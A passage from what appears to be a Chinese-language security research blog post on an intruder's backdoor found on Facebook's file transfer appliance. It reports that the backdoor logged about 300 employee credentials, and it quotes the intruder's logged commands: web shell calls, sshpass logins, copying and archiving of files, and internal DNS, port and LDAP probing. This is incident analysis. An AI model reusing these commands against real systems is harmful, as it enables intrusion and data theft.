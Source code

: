 從紀錄裡面可以看到除了使用者帳號密碼外，還有從 FTA 要求檔案時的信件內容，記錄到的帳號密碼會定時 Rotate (後文會提及，這點還滿機車的XD)  

發現當下，最近一次的 Rotate 從 2/1 記錄到 2/7 共約 300 筆帳號密碼紀錄，大多都是 "**@fb.com**" 或是 "**@facebook.com**" 的員工帳密，看到當下覺得事情有點嚴重了，在 FTA 中，使用者的登入主要有兩種模式  

 1. 一般用戶註冊，密碼 Hash 存在資料庫，由 SHA256 + SALT 儲存
 2. Facebook 員工 (@fb.com) 則走統一認證，使用 LDAP 由 AD 認證

在這裡相信記錄到的是真實的員工帳號密碼，****猜測**** 這份帳號密碼應該可以通行 Facebook Mail OWA, VPN 等服務做更進一步的滲透...  

此外，這名 "駭客" 可能習慣不太好 :P   

 1. 後門參數皆使用 GET 來傳遞，在網頁日誌可以很明顯的發現他的足跡
 2. 駭客在進行一些指令操作時沒顧慮到 STDERR ，導致網頁日誌中很多指令的錯誤訊息，從中可以觀察駭客做了哪些操作

<br>
從 access.log 可以觀察到的每隔數日駭客會將記錄到的帳號密碼清空  
{% highlight prolog %}
192.168.54.13 - - 17955 [Sat, 23 Jan 2016 19:04:10 +0000 | 1453575850] "GET /courier/custom_template/1000/bN3dl0Aw.php?c=./sshpass -p '********' ssh -v -o StrictHostKeyChecking=no soggycat@localhost 'cp /home/seos/courier/B3dKe9sQaa0L.log /home/seos/courier/B3dKe9sQaa0L.log.2; echo > /home/seos/courier/B3dKe9sQaa0L.log' 2>/dev/stdout HTTP/1.1" 200 2559 ...
{% endhighlight %}
<br>

打包檔案
{% highlight bash %}
cat tmp_list3_2 | while read line; do cp /home/filex2/1000/$line files; done 2>/dev/stdout
tar -czvf files.tar.gz files
{% endhighlight %}
<br>

對內部網路結構進行探測
{% highlight tex %}
dig a archibus.thefacebook.com
telnet archibus.facebook.com 80
curl http://archibus.thefacebook.com/spaceview_facebook/locator/room.php
dig a records.fb.com
telnet records.fb.com 80
telnet records.fb.com 443
wget -O- -q http://192.168.41.16
dig a acme.facebook.com
./sshpass -p '********' ssh -v -o StrictHostKeyChecking=no soggycat@localhost 'for i in $(seq 201 1 255); do for j in $(seq 0 1 255); do echo "192.168.$i.$j:`dig +short ptr $j.$i.168.192.in-addr.arpa`"; done; done' 2>/dev/stdout
...
{% endhighlight %}
<br>

使用 Shell Script 進行內網掃描但忘記把 STDERR 導掉XD

![Port Scanning](/images/blog/20160421/6.jpg)
<br>

嘗試對內部 LDAP 進行連接
{% highlight tex %}
sh: -c: line 0: syntax error near unexpected token `('
sh: -c: line 0: `ldapsearch -v -x -H ldaps://ldap.thefacebook.com -b CN=svc-accellion,OU=Service Accounts,DC=thefacebook,DC=com -w '********' -s base (objectclass=*) 2>/dev/stdout'
{% endhighlight %}
<br>
